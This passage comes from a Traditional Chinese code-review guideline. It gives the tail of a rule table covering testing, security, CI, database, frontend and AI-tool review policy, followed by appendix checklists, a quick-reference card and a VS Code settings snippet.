| `CR-MNT-008` | 應該 | 審查者應區分「本 PR 引入的問題」與「既有問題」；既有問題不應阻擋合併，而應建立議題（CR-CMT-005）。本 PR 引入的技術債，若同意延後處理，必須有議題與負責人 | [9.5](#95-技術債與範圍控制) |
| `CR-TST-001` | 必須 | 改變行為的變更必須附上對應的自動化測試，涵蓋正常路徑、邊界與錯誤情境；無法自動化測試時，必須在 PR 描述說明原因與手動驗證步驟 | [10.1](#101-測試是否存在是否在正確的層級) |
| `CR-TST-002` | 必須 | 錯誤修正必須附上回歸測試；審查者應確認這個測試在修正前會失敗（可在本機還原修正後執行，或請作者在描述中附上失敗紀錄） | [10.1](#101-測試是否存在是否在正確的層級) |
| `CR-TST-003` | 必須 | 「純重構」的 PR 不得修改既有測試的預期結果；需要修改預期結果，代表行為改變了，不是純重構 | [10.1](#101-測試是否存在是否在正確的層級) |
| `CR-TST-004` | 必須 | 每個測試都必須有能區分正確與錯誤行為的斷言；不得只呼叫方法而不檢查結果，也不得只驗證 mock 被呼叫而不檢查狀態或回傳值 | [10.2](#102-測試的品質程式壞掉時會失敗嗎) |
| `CR-TST-005` | 應該 | 核心業務模組（金額、授權、狀態轉換）應在 CI 執行變異測試，新程式碼的變異分數應達到 70% 以上；審查者應檢查存活的變異（survived mutants） | [10.2](#102-測試的品質程式壞掉時會失敗嗎) |
| `CR-TST-006` | 應該 | 測試名稱應描述情境與預期結果；同一規則的多個輸入應使用參數化測試，而不是複製貼上 | [10.2](#102-測試的品質程式壞掉時會失敗嗎) |
| `CR-TST-007` | 應該 | 應以新程式碼覆蓋率作為合併閘門（建議行覆蓋率 80%），並在 CI 上傳覆蓋率報告；審查者應查看未覆蓋的行是否為重要邏輯，而不只看百分比 | [10.3](#103-覆蓋率作為門檻而不是目標) |
| `CR-TST-008` | 必須 | 測試不得依賴真實時間、`Thread.sleep`、執行順序或外部網路服務；不得以 `@Disabled` 停用失敗的測試，除非附上議題編號與預計修復日期 | [10.4](#104-測試的穩定性與可維護性) |
| `CR-SEC-001` | 必須 | 修改上表安全敏感範圍的 PR，必須由資安擁護者（或指定的安全審查者）依安全程式碼指引第 20 章的檢查清單審查，並在核准意見中記錄已確認的項目；CI 的 SAST、SCA 與秘密掃描必須通過 | [11.1](#111-安全審查的範圍與方法) |
| `CR-SEC-002` | 必須 | 外部輸入必須在伺服器端以允許清單驗證型別、長度、格式與範圍（只在前端驗證不算數）；輸出到 HTML、JavaScript、URL、CSV 時必須依情境編碼，不得自行以字串組合 HTML | [11.2](#112-輸入驗證與輸出編碼) |
| `CR-SEC-003` | 必須 | SQL、命令、LDAP、運算式必須使用參數化介面（`PreparedStatement`、JPA 參數、`ProcessBuilder` 的參數清單）；無法參數化的部分（排序欄位、表格名稱）必須以允許清單對應，不得串接使用者輸入 | [11.3](#113-注入) |
| `CR-SEC-004` | 必須 | 存取特定資源的操作必須檢查資源屬於目前的使用者或租戶，且檢查必須寫在查詢條件中（例如 `findByIdAndCustomerId`），而不是先查出來再比對；他人的資源應回 404，避免洩漏資源是否存在 | [11.4](#114-身分驗證與授權) |
| `CR-SEC-005` | 必須 | 每個新端點都必須有「未登入（401）」、「缺少權限（403）」、「他人的資料（404）」三種授權測試 | [11.4](#114-身分驗證與授權) |
| `CR-SEC-006` | 必須 | 路由的權限設定必須預設拒絕：列出允許的路徑後以 `denyAll()` 收尾；不得以 `permitAll()` 結尾，也不得為了讓測試通過而放寬權限 | [11.4](#114-身分驗證與授權) |
| `CR-SEC-007` | 必須 | 程式碼、設定檔、測試資料與提交歷史中不得出現秘密（密碼、API 金鑰、權杖、私鑰、連線字串中的密碼）；設定檔只引用環境變數或秘密管理服務。秘密一旦被提交，即使之後刪除也必須視為外洩並撤換 | [11.5](#115-秘密敏感資料與日誌) |
| `CR-SEC-008` | 必須 | 日誌、錯誤訊息、例外訊息與 `toString()` 不得包含密碼、權杖、完整的身分證字號、信用卡號或其他個資；記錄使用者相關事件時以內部識別碼代替 | [11.5](#115-秘密敏感資料與日誌) |
| `CR-SEC-009` | 必須 | 密碼必須以專用的密碼雜湊演算法（Argon2id、bcrypt、PBKDF2）儲存，建議使用 Spring Security 的 `DelegatingPasswordEncoder`；不得使用 MD5、SHA-1、未加鹽的 SHA-256 或可逆加密。安全用途的亂數必須使用 `SecureRandom` | [11.6](#116-密碼學) |
| `CR-SEC-010` | 應該 | 審查新的 API 或功能時，審查者應以本節的對照表逐項自問；任一項無法確定時，應請資安擁護者協助 | [11.7](#117-owasp-top-102025-審查對照) |
| `CR-PRF-001` | 必須 | 不得在迴圈中執行資料庫查詢或遠端呼叫；需要關聯資料時應以 `JOIN FETCH`、`@EntityGraph` 或批次查詢（`findAllById`、`IN` 條件）一次取得。熱門路徑的查詢次數應以測試鎖定 | [12.1](#121-資料庫存取n1-與查詢次數) |
| `CR-PRF-002` | 必須 | 回傳集合的 API 與查詢必須有上限：使用分頁並設定最大頁面大小；不得在線上交易中呼叫無條件的 `findAll()` 或載入整張資料表 | [12.2](#122-無上限的查詢與分頁) |
| `CR-PRF-003` | 必須 | 新增的快取必須定義失效方式（更新時清除、TTL）與容量上限；不得快取使用者專屬的資料於共用鍵下；不應快取 `null` 或錯誤結果，除非是刻意的負向快取並有較短的 TTL | [12.3](#123-快取) |
| `CR-PRF-004` | 必須 | 所有外部呼叫（HTTP、資料庫、訊息佇列）都必須設定連線逾時與讀取逾時；重試必須有次數上限、退避間隔，且只用於冪等操作 | [12.4](#124-外部呼叫逾時與重試) |
| `CR-PRF-005` | 應該 | 以效能為理由的變更（或拒絕某個寫法），應附上量測方法與數據：微基準以 JMH，API 以 k6 或 Gatling，查詢以 `EXPLAIN ANALYZE`；量測環境與資料量必須寫明 | [12.5](#125-效能宣稱需要證據) |
| `CR-DB-001` | 必須 | 結構變更只能透過遷移工具（Flyway、Liquibase）的版本化腳本進行；已經在任何共用環境執行過的遷移腳本不得修改，修正必須以新的腳本進行 | [13.1](#131-遷移腳本的管理) |
| `CR-DB-002` | 必須 | 遷移腳本的檔名必須遵循工具的命名規則（Flyway：`V<版本>__<描述>.sql`），版本號不得與其他分支衝突；建議以時間戳記作為版本號 | [13.1](#131-遷移腳本的管理) |
| `CR-DB-003` | 必須 | 資料庫遷移必須與「前一版的程式碼」相容：同一次部署中不得刪除、改名或改變型別於前一版仍在使用的欄位與表格；破壞性變更必須以擴充與收縮的方式分多次部署 | [13.2](#132-向後相容擴充與收縮) |
| `CR-DB-004` | 必須 | 對大型資料表（建議門檻：100 萬筆以上）的遷移必須使用不阻擋讀寫的寫法：索引以 `CREATE INDEX CONCURRENTLY` 建立，約束以 `NOT VALID` 加上 `VALIDATE CONSTRAINT` 分兩步驟；遷移應設定 `lock_timeout`，避免等待鎖時阻擋其他查詢 | [13.3](#133-鎖與線上變更) |
| `CR-DB-005` | 應該 | 新增或修改的查詢若作用在大型資料表，PR 應附上以接近正式規模資料執行的 `EXPLAIN (ANALYZE, BUFFERS)` 結果，並確認使用了預期的索引；新增的索引應說明支援哪些查詢 | [13.4](#134-新查詢與索引) |
| `CR-FE-001` | 必須 | TypeScript 必須啟用 `strict`；不得使用 `any`（需要時使用 `unknown` 並收窄型別），不得以 `// @ts-ignore` 略過型別錯誤（確有必要時使用 `// @ts-expect-error` 並說明原因） | [14.1](#141-typescript-與-lint-設定) |
| `CR-FE-002` | 必須 | lint 設定必須放在程式庫中並在 CI 執行；ESLint 9 以上必須使用 flat config（`eslint.config.mjs`），ESLint 10 已不支援 `.eslintrc.*` | [14.1](#141-typescript-與-lint-設定) |
| `CR-FE-003` | 應該 | 元件的 props 與 emits 必須以 TypeScript 宣告型別（`defineProps<...>()`、`defineEmits<...>()`）；元件只負責一件事，超過 300 行的元件應考慮拆分 | [14.2](#142-元件設計狀態與非同步) |
| `CR-FE-004` | 必須 | 非同步操作必須處理載入中、成功、失敗三種狀態，並防止重複送出；錯誤訊息必須讓使用者知道發生什麼事與下一步，不得只在主控台輸出 | [14.2](#142-元件設計狀態與非同步) |
| `CR-FE-005` | 必須 | UI 變更必須符合 WCAG 2.2 AA：表單欄位有標籤、互動元素可用鍵盤操作、錯誤訊息能被輔助科技讀出、按鈕的目標尺寸至少 24×24 CSS 像素；審查者應以鍵盤實際操作一次新的互動流程 | [14.3](#143-無障礙wcag-22) |
| `CR-FE-006` | 應該 | 元件應有元件測試，以使用者看得到的東西（標籤、文字、角色）找元素並驗證行為，而不是檢查內部狀態或 CSS 類別；成功與失敗的情境都要測 | [14.4](#144-前端測試) |
| `CR-FE-007` | 應該 | UI 變更的 PR 應附上變更前後的截圖或短片（含窄螢幕與錯誤狀態）；有預覽環境時，審查者應在預覽環境實際操作 | [14.5](#145-ui-變更的審查) |
| `CR-FE-008` | 應該 | 樣式應使用設計系統的 Tailwind 主題變數（顏色、間距、字級），不應大量使用任意值（例如 `text-[13px]`、`bg-[#e11d48]`） | [14.5](#145-ui-變更的審查) |
| `CR-CFG-001` | 必須 | 正式環境的設定不得開啟除錯功能或公開管理端點：Actuator 只公開 `health` 與 `info`（其餘需認證）、錯誤回應不含堆疊追蹤、日誌等級不為 `DEBUG`／`TRACE`；設定差異應以 profile 或環境變數區分，不得以程式碼中的 `if (dev)` 判斷 | [15.1](#151-應用程式設定) |
| `CR-CFG-002` | 必須 | 新增相依套件時，PR 必須說明用途、為什麼不使用既有的套件，並確認：名稱正確（不是拼字相近的仿冒套件）、仍在維護、授權符合公司政策、沒有已知的高風險弱點 | [15.2](#152-相依套件) |
| `CR-CFG-003` | 必須 | 鎖定檔（`package-lock.json`、`pnpm-lock.yaml`、Gradle lockfile）必須提交；CI 必須以鎖定檔安裝（`npm ci`），不得在 CI 中解析新版本 | [15.2](#152-相依套件) |
| `CR-CFG-004` | 必須 | 工作流程必須宣告最小的 `permissions`（預設 `contents: read`，需要時才在工作層級增加）；不得使用 `write-all`，也不得依賴組織的預設權限 | [15.3](#153-cicd-工作流程) |
| `CR-CFG-005` | 必須 | 第三方 Action 必須固定到完整的提交 SHA（並在註解標示版本）；GitHub 官方的 Action 至少固定主要版本，建議也固定 SHA，並以 Dependabot 或 Renovate 更新 | [15.3](#153-cicd-工作流程) |
| `CR-CFG-006` | 必須 | 不得把不可信的輸入（PR 標題、分支名稱、議題內容等 `github.event.*`）直接放進 `run:` 指令，應先放入環境變數；使用 `pull_request_target` 或 `workflow_run` 的工作流程不得檢出並執行 PR 的程式碼 | [15.3](#153-cicd-工作流程) |
| `CR-CFG-007` | 應該 | Dockerfile 應使用固定版本（建議固定 digest）的精簡基底映像、以非 root 使用者執行、不在映像中放入秘密；Kubernetes 與 Terraform 等 IaC 變更應以對應的工具檢查並附上 `plan` 或差異結果 | [15.4](#154-容器與基礎設施即程式碼) |
| `CR-API-001` | 必須 | 修改 API 的 PR 必須同時更新 OpenAPI 契約；CI 必須比對新舊契約，發現破壞性變更時失敗，除非 PR 已標示為破壞性變更（Conventional Commits 的 `!`）並經 API 擁有者核准 | [16.1](#161-api-契約與破壞性變更) |
| `CR-API-002` | 應該 | 要移除的 API 應先標示為淘汰（OpenAPI `deprecated: true`，回應加上 `Deprecation` 與 `Sunset` 標頭），並公告移除日期；移除前應確認已沒有呼叫端（存取日誌） | [16.1](#161-api-契約與破壞性變更) |
| `CR-API-003` | 應該 | 改變使用方式、設定、部署或維運程序的 PR，應同時更新相關文件（README、設定說明、維運手冊、ADR、變更紀錄）；審查者應把文件當作變更的一部分審查 | [16.2](#162-文件與變更紀錄) |
| `CR-AUTO-001` | 必須 | 上表的品質閘門必須在每個 PR 執行，且必須設定為受保護分支的**必要檢查**（required status checks）；只執行但不阻擋合併的檢查不算品質閘門 | [17.1](#171-品質閘門清單) |
| `CR-AUTO-002` | 必須 | 品質閘門的門檻只能由 CODEOWNERS 指定的人修改；PR 中降低門檻（例如調低覆蓋率、把規則從 error 改為 warning、刪除必要檢查）必須在描述中說明並取得技術主管核准 | [17.1](#171-品質閘門清單) |
| `CR-AUTO-003` | 必須 | 品質閘門工作流程必須：宣告最小權限、固定 Action 版本、同時觸發 `pull_request` 與 `merge_group`、在品質閘門失敗時讓工作失敗（不得使用 `continue-on-error` 掩蓋）；修改工作流程時必須通過 actionlint | [17.2](#172-github-actions-範例) |
| `CR-AUTO-004` | 必須 | GitLab CI 必須以 `rules:` 控制工作在 MR 管線（`merge_request_event`）中執行，不得再使用已不建議的 `only:`／`except:`；並啟用「Pipelines must succeed」與「Merged results pipelines」 | [17.3](#173-gitlab-ci-範例) |
| `CR-AUTO-005` | 應該 | SonarQube 應以「新程式碼」品質閘門（Sonar way 或團隊自訂）作為必要檢查，並在 CI 中等待閘門結果（`sonar.qualitygate.wait=true`）；認證使用 `SONAR_TOKEN` 環境變數，覆蓋率使用 XML 報告 | [17.4](#174-sonarqube-設定) |
| `CR-AUTO-006` | 必須 | 抑制工具警告必須範圍最小（單一行或單一方法，不得整個檔案或整條規則）、指名規則，並以註解說明為什麼是誤報；審查者必須確認每一個新增的抑制 | [17.5](#175-工具警告的抑制) |
| `CR-AUTO-007` | 可以 | 可以把靜態分析結果以行內註解顯示在 PR 中，但只應顯示「本 PR 新增」的問題，並限制數量，避免審查意見被機器訊息淹沒 | [17.6](#176-審查輔助工具) |
| `CR-GH-001` | 必須 | GitHub 程式庫必須以 Ruleset（建議在組織層級）保護預設分支與發行分支：要求 PR、至少一位核准、新提交使核准失效或要求最後推送者以外的人核准、要求 CODEOWNER 審查、討論必須解決、必要狀態檢查、禁止強制推送與刪除 | [18.2](#182-githubrulesets) |
| `CR-GH-002` | 必須 | Ruleset 的略過對象（bypass actors）只能是指定的緊急應變角色或團隊，模式應為 `pull_request`（只能在 PR 中略過，留下紀錄）；不得把所有管理員設為 `always` 略過 | [18.2](#182-githubrulesets) |
| `CR-GH-003` | 必須 | CODEOWNERS 必須放在 `.github/CODEOWNERS`，並把 `.github/` 目錄（含 CODEOWNERS 本身與工作流程）指定給平台管理團隊；Ruleset 必須開啟 `require_code_owner_review` | [18.3](#183-githubcodeowners) |
| `CR-GH-004` | 必須 | CODEOWNERS 的每一行只能有一個路徑樣式；通用規則寫在前面、具體規則寫在後面；同一路徑需要多個團隊時，所有擁有者必須寫在同一行 | [18.3](#183-githubcodeowners) |
| `CR-GL-001` | 必須 | GitLab 專案必須設定：受保護分支禁止直接推送（Allowed to push and merge = No one 或只允許合併）、作者不能核准自己的 MR、提交者不能核准、新提交使核准失效、不允許在 MR 中覆寫核准規則、管線必須成功、所有討論必須解決 | [18.4](#184-gitlab核准設定與受保護分支) |
| `CR-GL-002` | 必須 | GitLab 專案應以 CODEOWNERS 區段表達高風險路徑的必要審查與核准人數（`[區段][N]`）；選用區段（`^`）不得用於安全、資料庫遷移、CI 設定等高風險路徑 | [18.5](#185-gitlabcodeowners-區段) |
| `CR-GL-003` | 必須 | `.gitlab/` 目錄、`.gitlab-ci.yml` 與 CODEOWNERS 本身必須放在必要區段，由平台管理團隊擁有 | [18.5](#185-gitlabcodeowners-區段) |
| `CR-GL-004` | 應該 | GitLab 專案應提供 `.gitlab/merge_request_templates/Default.md`，內容與 4.2 的 PR 範本一致；範本中的快速操作（quick actions）只能用於標籤與指派，不得用於核准或合併 | [18.6](#186-範本與自動化設定) |
| `CR-AI-001` | 必須 | 每一個合併到受保護分支的變更，都必須有一位人類作者為其內容負責，且至少一位人類審查者核准；AI 產生程式碼或 AI 提出審查意見，都不改變這個責任 | [19.1](#191-原則人對合併負責) |
| `CR-AI-002` | 必須 | AI 審查工具的結果不得計入必要核准人數：GitHub 不得啟用「Copilot approvals」使 Copilot 的核准滿足必要核准；不得讓 AI 代理以具核准權限的帳號核准 PR／MR；AI 工具的檢查結果可以作為參考性的狀態檢查，但不能取代人工核准 | [19.1](#191-原則人對合併負責) |
| `CR-AI-003` | 應該 | 每個程式庫應選定一個主要的 AI 審查工具並撰寫審查指示，內容至少包含：嚴重度的定義（對應 6.1 的分級）、不需要報告的項目（CI 已檢查的格式與 lint、自動產生的檔案）、必須檢查的專案規則、意見數量上限 | [19.2](#192-ai-審查工具的選擇) |
| `CR-AI-006` | 必須 | AI 審查與 AI 代理的指示檔（`.github/copilot-instructions.md`、`.github/instructions/`、`AGENTS.md`、`CLAUDE.md`、`REVIEW.md`、`.claude/`、`.gitlab/duo/`）必須由 CODEOWNERS 指定的團隊審查；指示檔中不得包含秘密或內部敏感資訊 | [19.3](#193-ai-審查工具的安全) |
| `CR-AI-009` | 必須 | 在 CI 中執行 AI 代理時，必須宣告最小權限、固定 Action 版本、限制代理可使用的工具；不得在 `pull_request_target` 或 `workflow_run` 中把 PR 的程式碼檢出到工作目錄根目錄後執行代理；不得對 fork 的 PR 自動執行具有寫入權限或秘密的代理 | [19.3](#193-ai-審查工具的安全) |
| `CR-AI-007` | 必須 | 作者必須驗證 AI 審查意見後才採取行動：不得在未理解的情況下套用 AI 的建議修改；判定為誤報的意見應簡短說明理由。人類審查者不得因 AI 沒有提出意見而減少自己的審查範圍 | [19.4](#194-處理-ai-審查意見) |
| `CR-AI-004` | 必須 | PR 描述必須揭露 AI 產生的程式碼範圍與作者的驗證方式（4.2 範本的「AI 使用揭露」段落）；審查者看到揭露時，應依本節的錯誤類型表加強檢查 | [19.5](#195-審查-ai-產生的程式碼) |
| `CR-AI-005` | 必須 | AI 代理（例如 Copilot cloud agent、Claude Code、GitLab Duo Agent Platform）建立的 PR／MR，必須有一位人類負責人擔任作者角色（CR-ROLE-001）；負責人不得同時擔任該 PR 的核准者 | [19.5](#195-審查-ai-產生的程式碼) |
| `CR-AI-008` | 必須 | AI 產生的程式碼中出現的每一個新 API、套件、設定鍵、CLI 參數，都必須經過編譯、測試或官方文件確認存在且用法正確；無法確認的不得合併 | [19.5](#195-審查-ai-產生的程式碼) |
| `CR-SPC-001` | 必須 | 緊急修正仍必須透過 PR 並至少由一位作者以外的人核准；P0 可以改為同步審查，但不得由作者以管理員權限略過審查（略過時必須依 0.6 記錄例外） | [20.1](#201-緊急修正) |
| `CR-SPC-002` | 必須 | 緊急修正合併後 1 個工作天內，必須完成事後審查：補上回歸測試、檢視同步審查時略過的項目、建立根本原因分析的議題 | [20.1](#201-緊急修正) |
| `CR-SPC-003` | 必須 | 大型重構必須拆成一系列可獨立部署的 PR，每個 PR 在描述中標示它在系列中的位置；「純重構」的 PR 不得改變行為（CR-TST-003），機械性變更（改名、搬移）必須與邏輯變更分開 | [20.2](#202-大型重構) |
| `CR-SPC-004` | 應該 | 相依套件的修補版本（patch）更新，在 CI 全部通過且不是安全敏感的套件時，可以設定自動合併；次要版本（minor）至少一位人工核准；主要版本（major）視為高風險變更（3.4），需閱讀版本說明中的破壞性變更 | [20.3](#203-自動產生的程式碼與機器人-pr) |
| `CR-SPC-005` | 必須 | 複製進程式庫的第三方程式碼（vendored code、從網路或 AI 取得的片段）必須標示來源與授權，授權必須符合公司政策；不得複製授權不明或與專案授權衝突的程式碼 | [20.4](#204-第三方程式碼與授權) |
| `CR-SPC-006` | 應該 | 跨團隊的變更應在開始實作前通知擁有團隊並取得方向上的同意；PR 描述應說明對各團隊的影響與需要他們確認的事項；擁有團隊的審查回應時限與一般審查相同（CR-PRC-002） | [20.5](#205-跨團隊變更) |
| `CR-SPC-007` | 必須 | 正式環境的資料修正腳本必須以 PR 提交並經過審查，與程式碼相同；腳本必須在交易中執行、先以 `SELECT` 確認影響筆數、限制影響範圍（明確的 `WHERE` 條件），並附上備份或回復方式；執行結果（影響筆數）必須記錄在 PR 中 | [20.6](#206-正式環境的資料修正) |
| `CR-CUL-001` | 必須 | 審查意見分歧依本節的三階段處理，每階段的結論寫回 PR；風格偏好的分歧，在團隊規範沒有規定時以作者的選擇為準，不得因此阻擋合併 | [21.1](#211-意見分歧的處理) |
| `CR-CUL-002` | 應該 | 同類型的分歧發生兩次以上時，技術主管應把結論寫入團隊規範、lint 規則或 ADR，避免每次重新爭論 | [21.1](#211-意見分歧的處理) |
| `CR-CUL-003` | 必須 | 團隊必須有書面的審查行為準則（可引用本指引第 6.3 節），並指定處理違反行為的人（通常是技術主管或工程經理）；被不當對待的成員可以私下回報，回報者不得因此受到不利對待 | [21.2](#212-心理安全與行為準則) |
| `CR-CUL-004` | 應該 | 資深成員應示範好的審查行為：公開承認自己的錯誤、感謝他人的意見、對新進成員的 PR 提供教學性的說明，並讓新進成員審查資深成員的程式碼 | [21.2](#212-心理安全與行為準則) |
| `CR-CUL-005` | 應該 | 審查工作應被計入工作量：迭代規劃時保留審查時間，並在績效評估中肯定好的審查貢獻（以質性描述為主，不以意見數量計分，見 CR-MET-002） | [21.3](#213-建立審查文化) |
| `CR-MET-001` | 應該 | 團隊應每月收集本節表格中的速度、規模、品質與控制指標（以第 50 與第 90 百分位數呈現，不只看平均），並在季度回顧中檢視趨勢 | [22.1](#221-度量的原則) |
| `CR-MET-002` | 不應該 | 不應以個人的審查數量、意見數量、被找到的缺陷數作為績效考核的量化指標；個人層級的資料只用於負載平衡與輔導 | [22.1](#221-度量的原則) |
| `CR-MET-003` | 應該 | 度量資料應以平台 API 自動收集，計算方式（起訖事件、排除條件）應寫在腳本或文件中，並排除機器人 PR 與草稿期間 | [22.2](#222-收集方式) |
| `CR-MET-004` | 應該 | 團隊應每季舉行一次審查回顧：檢視指標趨勢、逃逸缺陷的案例、匿名問卷結果，並產出最多三項具體的改善行動與負責人 | [22.3](#223-回顧與改善) |
| `CR-IMP-001` | 應該 | 導入本指引時應依本節的階段進行，每個階段指定負責人與完成條件；導入計畫與進度應記錄在程式庫或專案管理工具中 | [23.1](#231-導入路線圖) |
| `CR-IMP-002` | 應該 | 新成員在核准計入必要人數前，應完成本節的三階段培訓；mentor 應以實際的審查紀錄評估，而不是只看完成時數 | [23.2](#232-審查者培訓) |
| `CR-IMP-003` | 應該 | 團隊應每季舉行一次審查校準：選一個已合併的真實 PR（或刻意植入問題的練習 PR），成員各自審查後比較意見、分級與核准決定，對不一致的地方取得共識並更新規範 | [23.3](#233-審查校準) |

---

## 附錄 B 檢查清單與範本

本附錄把各章的規則整理成可以直接複製使用的清單。清單中的括號是規則編號，遇到不確定的項目時，回到該規則所在的章節查看範例與「🔍 審查與驗證」。

### B.1 作者送審前自我檢查

```markdown
<!-- 作者送審前自我檢查（可放入 PR 範本的「送審前確認」） -->
### 範圍
- [ ] 這個 PR 只做一件事，可以用一句話描述（CR-AUT-002）
- [ ] 有效變更行數 ≤ 400；超過時已說明理由或改用堆疊 PR（CR-AUT-001、CR-AUT-009）
- [ ] 沒有夾帶格式化、無關的重構或其他修正（CR-AUT-002）

### 描述
- [ ] 已填寫目的、變更內容、如何驗證、風險與影響（CR-AUT-003）
- [ ] 已連結議題；UI 變更附上前後截圖（CR-AUT-004、CR-FE-007）
- [ ] 已標記風險等級標籤（CR-PRC-007）
- [ ] 已填寫 AI 使用揭露，並能解釋 AI 產生的每一行（CR-AI-004、CR-ROLE-001）
- [ ] PR 標題符合 Conventional Commits；破壞性變更有 `!`（CR-AUT-005）

### 程式碼
- [ ] 已在平台上讀過整個 diff（CR-AUT-006）
- [ ] 沒有除錯輸出、被註解掉的程式碼、沒有議題編號的 TODO（CR-AUT-007、CR-MNT-007）
- [ ] 沒有秘密、個資或大型檔案（CR-SEC-007）
- [ ] 新增的抑制註解都有理由（CR-AUTO-006）

### 測試與驗證
- [ ] CI 全部通過
- [ ] 行為變更都有測試；錯誤修正有回歸測試（CR-TST-001、CR-TST-002）
- [ ] 測試有能區分對錯的斷言（CR-TST-004）

### 相容性
- [ ] API 變更已更新 OpenAPI，破壞性變更已標示（CR-API-001）
- [ ] 資料庫遷移與前一版程式碼相容（CR-DB-003）
- [ ] 新增的設定、指令已寫入文件（CR-API-003）
```

GitLab 使用者另外確認：

```markdown
<!-- GitLab MR 送審前的額外確認（v2.0 的 GitLab 檢查清單，保留仍適用的項目） -->
- [ ] MR 已設定 Reviewers（不是只有 Assignee）
- [ ] 已連結議題，設定 Labels 與 Milestone
- [ ] MR 管線（merge request pipeline）通過；啟用 merged results pipelines 時，結果管線也通過
- [ ] MR 已不是 Draft 狀態
- [ ] 沒有合併衝突
```

### B.2 審查者檢查清單

```markdown
<!-- 審查者檢查清單：依 5.3 的重要性排序 -->
### 準備（5.1）
- [ ] 理解變更的目的；描述不足時先請作者補充（CR-REV-001）
- [ ] CI 已通過；風險等級標記正確（CR-PRC-007）

### 1. 設計（第 7 章）
- [ ] 需要 ADR 的變更已有核准的設計，實作與設計一致（CR-DES-001、CR-DES-002）
- [ ] 沒有跨越分層；架構測試沒有被放寬（CR-DES-003、CR-DES-004）
- [ ] 沒有過度設計、沒有重複既有功能、符合既有慣例（CR-DES-005～007）

### 2. 正確性（第 8 章）
- [ ] 每個輸入與狀態都依邊界表檢查過（CR-COR-001、CR-COR-003）
- [ ] 不合法的輸入被拒絕而不是悄悄修正（CR-COR-002）
- [ ] 沒有吞掉例外；錯誤回應不洩漏內部資訊（CR-COR-005～007）
- [ ] 併發、交易邊界、資源關閉正確（CR-COR-010～013）
- [ ] 金額用 BigDecimal；時間可測試且有時區（CR-COR-014、CR-COR-015）

### 3. 安全（第 11 章）
- [ ] 以 ID 存取資源時檢查擁有者，且寫在查詢條件中（CR-SEC-004）
- [ ] 新端點有未登入、缺少權限、他人資料三種測試（CR-SEC-005）
- [ ] 沒有字串組合的 SQL、命令、運算式（CR-SEC-003）
- [ ] 沒有秘密；日誌沒有敏感資料（CR-SEC-007、CR-SEC-008）
- [ ] 安全敏感變更已由資安擁護者審查（CR-SEC-001）

### 4. 測試（第 10 章）
- [ ] 改壞任一行實作時，有測試會失敗（CR-TST-004）
- [ ] 沒有修改既有測試的預期值、沒有新增未說明的 @Disabled（CR-TST-003、CR-TST-008）

### 5. 可維護性（第 9 章）
- [ ] 名稱表達意圖；複雜度在門檻內；註解說明為什麼（CR-MNT-001～007）

### 6. 效能（第 12 章）
- [ ] 沒有 N+1、沒有無上限的查詢（CR-PRF-001、CR-PRF-002）
- [ ] 外部呼叫有逾時；快取有失效方式與上限（CR-PRF-003、CR-PRF-004）

### 7. 相容性與文件（第 13、15、16 章）
- [ ] 資料庫遷移可線上執行且向後相容（CR-DB-003、CR-DB-004）
- [ ] 設定、CI、相依套件的變更已依第 15 章檢查
- [ ] API 契約與文件已更新（CR-API-001、CR-API-003）

### 結論（5.6）
- [ ] 每則意見都標示是否阻擋（CR-CMT-001）
- [ ] 只有在沒有阻擋性問題時核准；核准意見說明驗證範圍（CR-REV-008、CR-REV-007）
```

技術別的補充清單（v2.0 的 Spring Boot 與 Vue 清單，依本指引的規則更新）：

```markdown
<!-- Spring Boot 補充清單 -->
### Controller
- [ ] @RequestBody 都有 @Valid；DTO 有長度與範圍限制（CR-COR-004）
- [ ] 使用者身分只取自已驗證的權杖（CR-SEC-004）
- [ ] 沒有業務邏輯；錯誤交給全域例外處理器（CR-DES-004、CR-COR-007）
### Service
- [ ] @Transactional 在 public 方法上，不依賴同類別內部呼叫（CR-COR-011）
- [ ] 交易中沒有外部呼叫（CR-COR-012）
### Repository
- [ ] 查詢條件包含擁有者或租戶；沒有 N+1；有分頁上限（CR-SEC-004、CR-PRF-001、CR-PRF-002）
### 設定
- [ ] 秘密只引用環境變數；prod 設定沒有公開 Actuator 端點（CR-SEC-007、CR-CFG-001）
```

```markdown
<!-- Vue＋TypeScript 補充清單 -->
### 元件
- [ ] props 與 emits 有型別；沒有 any 與 @ts-ignore（CR-FE-001、CR-FE-003）
- [ ] 處理載入中、成功、失敗；防止重複送出（CR-FE-004）
- [ ] 沒有 v-html；不得不用時已以 DOMPurify 清理（CR-SEC-002）
### 無障礙
- [ ] 表單欄位有 label；互動元素使用 button／a；錯誤訊息有 role="alert"（CR-FE-005）
- [ ] 以鍵盤實際操作過一次
### 測試與樣式
- [ ] 元件測試以使用者看得到的內容驗證，含失敗情境（CR-FE-006）
- [ ] 樣式使用設計系統的變數，沒有大量任意值（CR-FE-008）
```

### B.3 快速參考卡

```text
┌──────────────────── Code Review 快速參考卡 ────────────────────┐
│ 風險等級（3.4）                                                   │
│   risk:low     文件、測試、修補版本更新           1 位核准         │
│   risk:medium  一般功能                           1 位（含 CODEOWNER）│
│   risk:high    授權、加密、金額、遷移、CI、major   2 位＋安全或設計審查│
│                                                                    │
│ 時限（3.2）  第一次回應 ≤ 1 個工作天；作者回應 ≤ 1 個工作天         │
│ 大小（4.1）  ≤ 400 行；> 1,000 行必須說明或拆分                    │
│ 節奏（5.4）  單次 ≤ 60–90 分鐘、≤ 400 行                           │
│                                                                    │
│ 意見格式（6.1）  <標籤> [(裝飾)]: <主旨>                            │
│   issue (blocking)   必須修正         suggestion (non-blocking) 建議 │
│   question           請說明           nitpick                    小細節│
│   praise             肯定             note                       資訊  │
│                                                                    │
│ 核准（5.6）  改善整體健康度、沒有阻擋性問題 → 核准                  │
│              違反「必須」規則、缺測試、安全弱點 → 要求修改           │
│                                                                    │
│ AI（第 19 章）  AI 不計入核准；AI 產生的程式碼由作者負責並揭露       │
└────────────────────────────────────────────────────────────────────┘
```

### B.4 IDE 設定

審查前在 IDE 中看到的警告，應與 CI 一致，避免「本機沒問題、CI 失敗」。下列是 v2.0 的 VS Code 設定的修正版。

```json
{
  "editor.formatOnSave": true,
  "editor.codeActionsOnSave": {
    "source.organizeImports": "explicit",
    "source.fixAll.eslint": "explicit"
  },
  "java.checkstyle.configuration": "${workspaceFolder}/config/checkstyle/checkstyle.xml",
  "files.exclude": {
    "**/target": true
  }
}
```

